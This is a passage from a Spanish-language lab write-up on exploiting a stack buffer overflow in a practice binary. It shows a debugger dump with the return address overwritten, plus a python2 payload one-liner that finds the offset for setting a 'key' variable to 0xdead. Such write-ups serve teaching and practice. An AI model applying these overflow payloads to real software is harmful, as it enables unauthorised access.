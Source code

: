 ```


──────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffae0716c0 —▸ 0x7fffae0717b0 —▸ 0x7fffae0717b8 ◂— 0x38 /* '8' */
01:0008│     0x7fffae0716c8 —▸ 0x5557c91e6199 (main) ◂— push rbp
02:0010│     0x7fffae0716d0 ◂— 0x1c91e5040
03:0018│     0x7fffae0716d8 —▸ 0x7fffae0717c8 —▸ 0x7fffae0734eb ◂— '/home/kali/Desktop/stack/command_exec'
04:0020│     0x7fffae0716e0 —▸ 0x7fffae0717c8 —▸ 0x7fffae0734eb ◂— '/home/kali/Desktop/stack/command_exec'
05:0028│     0x7fffae0716e8 ◂— 0x6a5a41847d871441
06:0030│     0x7fffae0716f0 ◂— 0
07:0038│     0x7fffae0716f8 —▸ 0x7fffae0717d8 —▸ 0x7fffae073511 ◂— 'COLORTERM=truecolor'
────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────
 ► 0   0x7f0042424242 None
   1   0x7fffae0717b0 None
   2   0x5557c91e6199 main
   3      0x1c91e5040 None
   4   0x7fffae0717c8 None
   5   0x7fffae0717c8 None
   6 0x6a5a41847d871441 None
   7              0x0 None
───────────────────────────────────────────────────────────────────────────────
```

Vemos que esta escribiendo bien el `RIP` con las `B` que hemos metido que se representan en `hexadecimal` con el `42424242` y las `A` con el `4141414141414141`, por lo que se esta escribiendo todo correctamente.

Pero para verlo mejor y ser mas certeros, vamos a realizarlo de forma manual de la siguiente forma.

Vamos a investigar donde se llena de `B(42)` la `key` que nos dice el binario.

```shell
python2 -c 'print b"A"*76 + b"B"*8' | ./command_exec
```

Info:

```
Escribe la contraseña: Estás en modo usuario (key = 42424242)
key debe valer 0xdead para entrar al modo administrador
```

Vemos que la `key` se esta llenando de `B(42)` despues de los `76` caracteres, por lo que hemos encontrado el `offset` real, ahora vamos a crearnos un mini script, para automatizar todo esto...

### Rellenando la key con `dead`

Sabiendo que la direccion de memoria es `0xdead` la que tiene que rellenar la `key`, podremos crear el siguiente script, para ver si se rellena bien:

> exploit.py
